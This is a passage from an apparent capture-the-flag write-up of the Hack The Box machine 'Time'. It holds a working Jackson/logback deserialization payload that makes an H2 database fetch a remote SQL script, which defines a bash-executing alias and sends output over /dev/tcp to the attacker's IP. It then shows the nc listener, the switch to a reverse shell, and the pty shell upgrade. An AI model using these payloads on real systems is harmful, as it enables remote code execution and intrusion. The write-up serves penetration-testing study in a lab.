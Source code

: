 [https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-through/java/sid-3929](https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-through/java/sid-3929)

```text
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > /dev/tcp/10.10.14.159/8081')
```

test.sql

```text
"[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}]"
```

```text
["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url"%3a"jdbc%3ah2%3amem%3a%3bTRACE_LEVEL_SYSTEM_OUT%3d3%3bINIT%3dRUNSCRIPT+FROM+'http%3a//10.10.14.159%3a8082/test.sql'"}]
```

AFter some testing, I discovered that the POC code had some `\` that they were using to excape the quotes. These were causing the validator in this case to throw an error.

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ python3 -m http.server 8082                 
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.10.10.214 - - [15/Mar/2021 19:31:42] "GET /test.sql HTTP/1.1" 200 -
10.10.10.214 - - [15/Mar/2021 19:36:15] "GET /test.sql HTTP/1.1" 200 -
```

After I removed them from my code I got a connection back, downloading my test.sql.

```text
zweilos@kali:~/htb/time$ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 36640
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

I got a connection back on my machine, proving the remote code execution worked. Next I replaced the `id` command with a reverse shell.

## Initial Foothold

```text
zweilos@kali:~/htb/time$ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 36644
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ which python3
which python3
/usr/bin/python3
pericles@time:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 8081
zweilos@kali:~/htb/time$ stty size
27 104
zweilos@kali:~/htb/time$ stty raw -echo
nc -lvnp 8081aa:~/htb/time$ 

pericles@time:/var/www/html$ stty rows 27 columns 104
```